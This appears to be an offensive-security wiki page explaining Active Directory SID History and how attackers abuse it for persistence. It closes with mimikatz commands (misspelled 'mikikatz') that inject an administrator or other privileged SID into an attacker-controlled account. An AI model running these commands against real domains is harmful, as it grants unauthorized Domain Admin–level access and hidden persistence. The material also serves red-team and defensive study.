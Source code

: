 # SID History

The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. 

When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

```
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```